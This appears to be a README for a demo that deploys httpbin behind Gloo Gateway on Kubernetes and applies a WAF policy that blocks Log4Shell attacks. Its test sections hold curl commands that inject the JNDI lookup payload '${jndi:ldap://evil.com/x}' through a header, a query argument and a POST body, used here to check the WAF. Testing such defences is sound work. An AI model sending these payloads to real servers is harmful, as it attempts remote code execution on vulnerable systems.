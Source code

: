 # Block Log4Shell attacks with Gloo Gateway

https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/

## Deploy httpbin

```sh
kubectl create namespace httpbin --context gloo
kubectl --context gloo label namespace httpbin istio-injection=enabled

kubectl apply -f log4shell/httpbin.yaml -n httpbin --context gloo
```

## Gloo Mesh Config


https://www.solo.io/blog/handling-super-sized-requests-with-gloo-edge/

```sh
kubectl apply -f log4shell/workspace.yaml --context gloo
kubectl apply -f log4shell/virtual-gateway.yaml --context gloo
kubectl apply -f log4shell/route-table.yaml --context gloo
```


## Test bad call

```sh
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```


## Apply Policy

```sh
kubectl apply -f log4shell/waf-policy.yaml --context gloo
```

```sh
# Request Header Attacks
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
# Request Argument Attacks
curl -X GET localhost:8080/anything\?arg-1=\$\\{jndi:ldap://evil.com/x\\} -i
# Request Payload Attacks
curl -X POST -d "arg-1=\${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```
